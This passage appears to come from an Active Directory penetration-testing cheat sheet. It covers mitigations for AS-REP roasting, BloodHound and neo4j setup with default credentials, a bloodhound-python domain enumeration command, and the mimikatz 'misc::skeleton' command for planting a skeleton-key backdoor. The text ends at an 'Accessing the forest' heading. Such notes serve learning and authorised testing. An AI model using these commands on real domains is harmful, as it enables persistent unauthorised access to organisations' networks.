 
## [+] AS-REP Roasting Mitigations

- Have a strong password policy. With a strong password, the hashes will take longer to crack making this attack less effective
- Don't turn off Kerberos Pre-Authentication unless it's necessary there's almost no other way to completely mitigate this attack other than keeping Pre-Authentication on.

# ______________________________________________________________________

```bash
# you should install these two tools  
pip3 install bloodhound # install bloodhound-python 
apt install bloodhound # install bloodhound GUI 
ulimit -n 100000
sudo neo4j start 
bloodhound & 
firefox http://localhost:7474/browser/ # username: neo4j , password: neo4j 
# change the username and the password 
# login to bloodhound and upload result JSON files of bloodhound-python 
```

```bash
bloodhound-python -u <username> -p <password> -ns <DC IP> -c All 
```

# ______________________________________________________________________

# ______________________________________________________________________

# [=] Skeleton Backdoor

### [+] Installing the Skeleton Key w/ mimikatz -

1.) `misc::skeleton` - Yes! that's it but don't underestimate this small command it is very powerful

![https://i.imgur.com/wI802gw.png](https://i.imgur.com/wI802gw.png)

# ______________________________________________________________________

# [=] Accessing the forest
